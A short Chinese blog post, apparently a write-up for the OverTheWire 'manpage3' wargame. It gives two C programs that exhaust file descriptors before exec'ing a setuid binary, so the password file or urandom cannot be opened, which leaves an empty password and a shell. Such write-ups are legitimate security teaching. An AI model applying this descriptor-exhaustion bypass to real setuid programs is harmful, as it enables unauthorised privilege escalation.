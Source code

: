 ```yaml
---
title: manpage3
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

还是那个道理，打开的file descriptor会经过exec保存下来。我最开始的想法是，打开很多文件，然后执行manpage3，那么读密码那里就读空，因为密码文件打不开了 

{% highlight c %}
#include <unistd.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    for(i=4; i<1024; ++i)
        open("./do.c", O_RDONLY);
    execl("./manpage3", "./manpage3", NULL);
}
{% endhighlight %}

这里上限1024是从`ulimit -n`得到的

在我的机子上这样是可以的，但在主机那里就不行了……

然后用同样的思路执行manpage-reset，使得urandom打不开。这样的话程序会崩溃，但密码文件是&#8221;w&#8221;打开，offset还在文件起始处，所以什么都没写就关闭了 

{% highlight c %}
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main (int argc, char *args[]) {
    int i;
    FILE *fp;
    for(i=4; i<1024; ++i)
        fp = fopen("/manpage/manpage3", "r");
    execl("/manpage/manpage3-reset", "/manpage/manpage3", NULL);
}
{% endhighlight %}

之后再执行manpage3，密码为空，得到shell
